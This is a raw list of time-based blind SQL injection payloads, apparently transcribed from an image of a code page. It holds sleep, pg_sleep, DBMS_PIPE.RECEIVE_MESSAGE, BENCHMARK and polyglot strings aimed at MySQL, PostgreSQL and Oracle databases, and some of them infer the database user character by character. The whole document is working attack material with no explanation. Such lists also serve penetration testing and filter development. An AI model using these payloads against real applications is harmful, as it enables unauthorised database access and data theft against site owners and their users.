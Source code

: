```0'XOR(if(now()=sysdate(),sleep(10),0))XOR'X
');(SELECT 4564 FROM PG_SLEEP(5))--

["')//OR//MID(0x352e362e33332d6c6f67,1,1)//LIKE//5//%23"]

DBMS_PIPE.RECEIVE_MESSAGE(%5BINT%5D,5)%20AND%20%27bar%27=%27bar

AND 5851=DBMS_PIPE.RECEIVE_MESSAGE([INT],5) AND 'bar'='bar

1' AND (SELECT 6268 FROM (SELECT(SLEEP(5)))ghXo) AND 'IKlK'='IKlK

(select*from(select(sleep(20)))a)

'%2b(select*from(select(sleep(0)))a)%2b'

*'XOR(if(2=2,sleep(10),0))OR'
-1' or 1=IF(LENGTH(ASCII((SELECT USER())))>13, 1, 0)--//

'+(select*from(select(if(1=1,sleep(20),false)))a)+'"

2021 AND (SELECT 6868 FROM (SELECT(SLEEP(32)))IiOE)

BENCHMARK(10000000,MD5(CHAR(116)))

'%2bbenchmark(10000000%2csha1(1))%2b'

'%20and%20(select%20%20from%20(select(if(substring(user(),1,1)='p',sleep(5),1)))a)--%20 - true

polyglots payloads:

if(now()=sysdate(),sleep(3),0)/'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"/

if(now()=sysdate(),sleep(10),0)/'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0) and 1=1)"/```
